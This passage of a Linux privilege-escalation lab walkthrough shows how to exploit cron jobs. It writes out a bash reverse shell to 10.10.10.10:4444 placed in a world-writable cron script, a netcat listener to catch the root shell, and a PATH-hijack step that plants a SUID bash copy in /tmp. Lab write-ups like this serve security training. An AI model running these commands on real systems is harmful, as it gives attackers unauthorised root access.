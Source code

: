 3. Note that the file is world-writable:

```
ls -l /usr/local/bin/overwrite.sh
```

4. Replace the contents of the overwrite.sh file with the following after changing the IP address to that of your Kali box.

```
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

5. Set up a netcat listener on your Kali box on port 4444 and wait for the cron job to run (should not take longer than a minute). A root shell should connect back to your netcat listener.

```
nc -nvlp 4444
```

## Cron Jobs - PATH Environment Variable

1. View the contents of the system-wide crontab:

```
cat /etc/crontab
```

2. Note that the PATH variable starts with /home/user which is our user's home directory.

3. Create a file called overwrite.sh in your home directory with the following contents:

```
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

4. Make sure that the file is executable:

```
chmod +x /home/user/overwrite.sh
```

5. Wait for the cron job to run (should not take longer than a minute). Run the /tmp/rootbash command with -p to gain a shell running with root privileges:

```
/tmp/rootbash -p
```

## Cron Jobs - Wildcards 

1. View the contents of the other cron job script:

```
cat /usr/local/bin/compress.sh
```
